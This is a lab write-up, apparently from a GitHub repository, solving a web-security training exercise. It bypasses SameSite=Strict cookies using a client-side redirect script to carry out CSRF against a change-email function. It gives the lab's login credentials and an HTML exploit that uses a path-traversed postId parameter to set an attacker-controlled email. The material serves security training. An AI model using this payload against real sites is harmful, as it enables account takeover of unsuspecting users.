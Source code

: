 # SameSite Strict bypass via client-side redirect
# Objective
This lab's change email function is vulnerable to CSRF. \
To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website has `Change email` functionality which is not protected by `CSRF` token. 
There is `SameSite` option set to `Strict`, therefore browsers will ot include cookies in cross site requests. 
Both `GET` and `POST` request is possible to change email

|![](Images/image-29.png)|
|:--:| 
| *Test of change email functionality - POST request - CSRF token is not preset* |
|![](Images/image-21.png)|
| *Test of change email functionality - GET request - CSRF token is not preset* |
|![](Images/image-30.png)|
| *Cookie configuration - Samesite is set to Strict* |
|![](Images/image-32.png)|
| *Client-side redirect script* |

## Exploitation
To bypass `SameSite=Strict` attacker may use client-side open redirect. Script `commentConfirmationRedirect.js`, after 3 seconds redirects user to given port page. Data passed in URL can be modified to construct CSRF atttack and change victim's email address.

Exploit server configuration:
```html
<script>
    document.location = "https://<id>.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email%3femail%3dattacker%2540attack.attack%26submit%3d1";
</script>
```

|![](Images/image-34.png)|
|:--:| 
| *Original request* |
|![](Images/image-33.png)|
| *Modified request - successful redirection to home page* |
|![](Images/image-35.png)|
| *Modified request - successful redirection - email address was changed* |
|![](Images/image-36.png)|
| *Exploit server configuration* |
